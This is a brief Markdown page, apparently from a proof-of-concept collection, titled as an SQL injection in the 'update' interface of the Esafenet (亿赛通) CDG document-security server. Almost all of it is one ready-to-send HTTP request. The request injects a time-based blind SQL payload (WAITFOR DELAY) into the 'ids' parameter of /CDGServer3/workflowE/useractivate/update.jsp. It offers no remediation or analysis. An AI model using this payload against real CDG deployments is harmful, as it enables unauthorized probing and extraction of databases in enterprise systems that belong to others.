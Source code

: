 ## 亿赛通update接口sql注入


## poc
```
GET /CDGServer3/workflowE/useractivate/update.jsp?flag=1&ids=1,3);WAITFOR%20DELAY%20%270:0:1%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0E05880315C89F32A53653313D83EC57; JSESSIONID=ACDE6D30E6BCEC22E1F90536FEEBD951
Upgrade-Insecure-Requests: 1
Content-Length: 0

```

![bbcbc39875947528038008fe2d547f1c](../../images/67677f55-7833-4daf-8204-c166b9c49141.png)
